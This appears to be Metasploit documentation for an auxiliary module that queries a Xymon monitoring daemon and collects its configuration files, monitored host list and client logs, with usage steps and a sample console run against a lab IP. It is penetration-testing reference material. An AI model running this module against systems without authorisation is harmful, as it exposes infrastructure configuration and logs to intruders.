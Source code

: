 ## Description

  This module retrieves information from a Xymon daemon service
  (formerly Hobbit, based on Big Brother), including server
  configuration information, a list of monitored hosts, and
  associated client log for each host.


## Vulnerable Application

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  ```
  sudo apt-get install xymon
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use use auxiliary/gather/xymon_info`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should receive server and client host information


## Scenarios

  ```
  msf5 > use auxiliary/gather/xymon_info 
  msf5 auxiliary(gather/xymon_info) > set rhosts 172.16.191.250
  rhosts => 172.16.191.250
  msf5 auxiliary(gather/xymon_info) > run
  [*] Running module against 172.16.191.250

  [*] 172.16.191.250:1984 - Xymon daemon version 4.3.28
  [*] 172.16.191.250:1984 - Retrieving configuration files ...
  [+] 172.16.191.250:1984 - xymonserver.cfg (18347 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_136371.txt
  [+] 172.16.191.250:1984 - hosts.cfg (745 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.hos_647070.txt
  [*] 172.16.191.250:1984 - Retrieving host list ...
  [+] 172.16.191.250:1984 - Host info (127 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hostinfo_254799.txt
  [+] 172.16.191.250:1984 - Found 3 hosts
  [*] 172.16.191.250:1984 - Retrieving client logs ...
  [+] 172.16.191.250:1984 - debian-9-6-0-x64-xfce.local client log (87942 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hosts.debi_671716.txt
  [*] 172.16.191.250:1984 - test-host client log is empty
  [*] 172.16.191.250:1984 - another-test-host client log is empty
  [*] Auxiliary module execution completed
  ```

